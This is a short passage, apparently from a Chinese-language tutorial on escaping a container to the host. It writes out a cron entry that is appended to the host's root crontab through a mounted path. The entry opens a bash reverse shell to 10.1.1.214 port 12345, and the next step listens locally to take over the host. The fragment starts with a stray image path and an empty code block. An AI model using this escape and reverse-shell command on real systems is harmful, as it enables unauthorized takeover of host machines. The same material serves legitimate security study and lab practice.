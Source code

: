 ```bash
```
2、在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root
```bash
echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.214/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```
3、本地监听端口，获取对方宿主机shell。<br />![](https://cdn.nlark.com/yuque/0/2020/webp/396745/1599207381154-cb9e2fd9-5427-4539-ae04-4efbebe6c64f.webp#height=94&id=k29zY&originHeight=94&originWidth=652&originalType=binary&ratio=1&rotation=0&showTitle=false&size=0&status=done&style=none&title=&width=652)
